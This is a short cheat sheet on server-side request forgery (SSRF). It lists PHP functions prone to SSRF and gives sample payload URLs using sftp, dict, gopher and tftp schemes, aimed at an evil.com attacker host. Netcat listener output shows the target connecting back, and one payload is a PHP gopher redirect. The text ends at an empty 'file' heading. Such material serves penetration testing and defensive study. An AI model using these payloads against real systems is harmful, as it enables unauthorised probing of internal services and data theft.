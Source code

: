 ```yaml
---
title: SSRF Tips
date: 2016-07-03 04:10:22
tags: SSRF
---
```


### SSRF PHP function
```
file_get_contents()
fsockopen()
curl_exec()

```

### URL schema support
> SFTP

```
http://safebuff.com/ssrf.php?url=sftp://evil.com:11111/

evil.com:$ nc -v -l 11111
Connection from [192.168.0.10] port 11111 [tcp/*] accepted (family 2, sport 36136)
SSH-2.0-libssh2_1.4.2
```
> Dict

```
http://safebuff.com/ssrf.php?dict://attacker:11111/

evil.com:$ nc -v -l 11111
Connection from [192.168.0.10] port 11111 [tcp/*] accepted (family 2, sport 36136)
CLIENT libcurl 7.40.0
```

> gopher

```
// http://safebuff.com/ssrf.php?url=http://evil.com/gopher.php
<?php
        header('Location: gopher://evil.com:12346/_HI%0AMultiline%0Atest');
?>

evil.com:# nc -v -l 12346
Listening on [0.0.0.0] (family 0, port 12346)
Connection from [192.168.0.10] port 12346 [tcp/*] accepted (family 2, sport 49398)
HI
Multiline
test
```
> TFTP

```
http://safebuff.com/ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET

evil.com:# nc -v -u -l 12346
Listening on [0.0.0.0] (family 0, port 12346)
TESTUDPPACKEToctettsize0blksize512timeout6
```
> file
